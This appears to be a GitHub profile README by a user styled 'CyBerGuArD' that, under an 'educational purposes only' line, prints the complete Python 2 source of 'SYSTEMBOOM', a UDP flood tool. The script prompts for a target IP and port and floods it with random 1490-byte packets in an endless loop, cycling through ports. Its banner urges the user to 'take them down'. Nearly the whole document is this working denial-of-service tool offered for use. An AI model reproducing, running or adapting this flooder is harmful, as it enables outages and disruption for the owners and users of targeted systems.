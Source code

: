 - 👋 Hi, I’m @CyBerGuArD-

welcome this educational purposes only


 ...

<!---
CyBerGuArD-cell/CyBerGuArD-cell is a ✨ special ✨ repository because its `README.md` (this file) appears on your GitHub profile.
You can click the Preview link to take a look at your changes.
--->

#!/system/bin/python

#SYSTEMBOOM 2.0 27-06-2017 (1:42)

#Tool for UDP Flood

#Authorized by DedSecTL

#cyber guard 

import socket, os, random, time

# Color

B = '\033[1m'

R = '\033[31m'

N = '\033[0m'

# Code time ##################

from datetime import datetime

now = datetime.now()

hour = now.hour

minute = now.minute

day = now.day

month = now.month

year = now.year

##############################

sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)

bytes = random._urandom(1490)

os.system("clear")

print 

print "["+B+""+R+"#"+N+"] "+B+""+R+"CYBERGUARD"+N+"   SYSTEMBOOM - "+B+""+R+"DedSecTL"+N            

print

print "#T4ke 7hem d0wn vroh - D0n7 g1ve up - SYSTEMBOOM th3m"

print "#H4ck 4ll 7he 7h1ng - F1ght f0r Ju5t1c3 - K1ll th3m"

print

ip = raw_input('[$] T@rget 1P: ')

port = input('[$] P0rt: ')

os.system("clear")

print "SYSTEM attack started on {0}.{1} | {2}-{3}-{4}".format(hour, minute, day, month, year)

time.sleep(3)

print

sent = 0

while True:

     sock.sendto(bytes, (ip,port))

     sent = sent + 1

     port = port + 1

     print "Sent %s packet to %s throught port:%s"%(sent,ip,port)

     if port == 65534:

       port = 1
